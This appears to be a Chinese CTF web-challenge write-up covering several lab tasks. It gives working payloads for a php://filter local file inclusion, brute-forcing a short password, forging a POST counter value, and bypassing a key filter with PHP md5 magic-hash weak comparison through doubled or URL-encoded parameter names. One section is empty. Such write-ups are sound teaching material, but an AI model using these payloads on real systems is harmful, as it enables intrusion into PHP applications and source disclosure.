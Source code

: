 <br>

### flag在index里
进入页面右键源代码，发现文件包含漏洞，根据题目直接利用php://filter得到index.php源码
`http://120.24.86.145:8005/post/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`
<br>

### 输入密码查看flag
提示了5位密码，直接利用burp进行爆破，得到flag
<br>

### 前女友

<br>

### 点击一百万次
右键源代码,查看源代码，发现点击超过1000000次后会发送post请求，直接利用hackbar发送POST请求即可
```
[POST DATA]
clicks=999999999
```
<br>

### 听说备份是个好习惯
题目的备份提醒，直接访问index.php.bak，得到源码
```php
include_once "flag.php";
ini_set("display_errors", 0);
$str = strstr($_SERVER['REQUEST_URI'], '?');
$str = substr($str,1);
$str = str_replace('key','',$str);
parse_str($str);
echo md5($key1);

echo md5($key2);
if(md5($key1) == md5($key2) && $key1 !== $key2){
    echo $flag."取得flag";
}
```
审计后发现对key进行过滤，并且需要满足md5后相等
那么利用php弱类型，以及双写或者url都可绕过
```
双写绕过
http://120.24.86.145:8002/web16/?kekeyy1=QNKCDZO&&kekeyy2=s878926199a

对key进行url编码
http://120.24.86.145:8002/web16/?%6b%65%791=QNKCDZO&&%6b%65%792=s878926199a

```
<br>
